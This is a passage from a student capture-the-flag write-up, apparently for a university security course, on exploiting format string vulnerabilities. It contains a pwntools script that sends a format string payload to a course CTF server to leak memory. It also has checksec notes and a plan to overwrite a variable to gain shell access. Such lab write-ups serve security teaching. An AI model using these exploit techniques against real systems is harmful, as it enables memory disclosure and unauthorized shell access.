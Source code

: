 ![Terminal print of gdb use](img/Week6/CTF-attack1.png)


**Python Script**

``` python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: $ gdb attach 9717 )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4004)
##0x804c060
p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08.%s.%p.%p.%p.%p.")
p.interactive()
```


### **Task 2**

#### **Checksec**

- No address randomization
- No regions in the memory with RWX permissions
- Cannaries present in the stack
- Architecture is x86
- Stack does not have execute permissions 

(Same as first task)

![Terminal print of checksec](img/Week6/CTF-checksec2.png)


#### **Program Analysis**

- What changed? The program is different, as the flag is no longer in a buffer. The vulnerability is still present but the flag cannot be printed directly. There is access to the bash if the key value is changed
- Still vulnerable but in a different way
- We can abuse the format string vulnerability present in line 14 by utilizing it to alter the value of key, giving us access to the bash
